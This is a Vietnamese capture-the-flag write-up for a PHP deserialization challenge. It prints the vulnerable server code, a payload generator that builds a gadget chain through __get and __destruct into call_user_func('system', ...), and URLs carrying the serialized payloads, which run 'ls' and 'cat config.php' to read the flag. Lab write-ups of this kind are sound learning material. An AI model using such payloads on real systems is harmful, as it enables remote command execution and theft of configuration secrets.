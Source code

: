 # Bài tập 1 - Nhóm bài tập

##
### Team: Acceleration

### Link bài tập: [http://45.122.249.68:10001/](http://45.122.249.68:10001/)
##

Bước đầu truy cập vào link, ta nhận được một file php của server

```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

Phần code gồm 3 class và phần if phía dưới, ta phân tích phần if phía dưới

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```

Ta thấy rằng server lấy dữ liệu từ biến code, và tiến hành unserialize, vậy đây là lỗi php deserialization, ta sẽ lợi dụng việc deserialization để thay đổi các object

Nhìn vào class `Show_color`, ta thấy trong class này có hàm `__destruct()` sẽ được tự động gọi khi hủy đối tượng, trong đó gọi đến `call_user_func($this->type->adu,$this->color)`
hàm này nếu ta control được 2 đối số truyền vào, ta có thể thực thi lệnh hệ thống, ví dụ ta có thể thực thi `system('ls')` bằng `call_user_func('system','ls')`

```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

Vậy bây giờ ta cần tìm cách để gán 2 tham số vào, ta nhận thấy tham số thứ 2 đến từ `$this->color`, ta dễ dàng thay đổi từ vì chúng được unserialize, còn tham số đầu tiên dùng truy vấn
`$this->type->adu`, như vậy ta phải thay `$this->type` bằng một `object` mà `object->adu = 'system'`

Trong 3 class trong source code không có class nào có thuộc tính `adu` cả, tuy nhiên ta để ý class `do_nothing` có một magic method `__get()`

```php
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
```

Với magic method `__get()` này thì các truy vấn như `object->adu` sẽ không truy vấn trực tiếp đến biến `adu` trong class nữa mà sẽ được truyền vào hàm `__get($method)` với `$method = 'adu'`

Nhìn vào hàm `__get($method)`, ta nhận thấy nếu biến `$this->why` được set giá trị thì hàm sẽ luôn trả về `$this->i_use_this` bất kể giá trị `$method` có là gì, vậy ta chỉ cần thay
`$this->type` ở class `Show_color` là một object thuộc class `do_nothing` với tham số `$this->why = 1` và `$this->i_use_this = 'system'` (tham số `$this->why` được set tùy ý)

Như vậy khi hủy đối tượng thuộc class `Show_color`, server gọi hàm `call_user_func($this->type->adu,$this->color)` với `$this->type->adu = $this->type->i_use_this = 'system'` và `$this->color = 'ls'`

Ta sử dụng code sau để unserialize đối tượng

```php
<?php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct(){
        call_user_func($this->type->adu,$this->color);
    }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
$a = new do_nothing(1, 'system');
$b = new Show_color($a, 'ls');
echo serialize($b);
?>
```

Chạy thử, ta nhận được chuỗi serialize là `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

![](images/1.png)

Thay vào biến code trên link [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

![](images/2.png)

Ta thấy trong system có 2 file là `index.php` (file đang chạy) và `config.php`

Sử dụng cách cũ nhưng lần này ta thử thay lệnh 'ls' bằng lệnh 'cat config.php' thử

serialize: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

link: [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

Ta nhận được một trang trắng tinh, những kiểm tra source, ta tìm được flag

![](images/3.png)

flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`

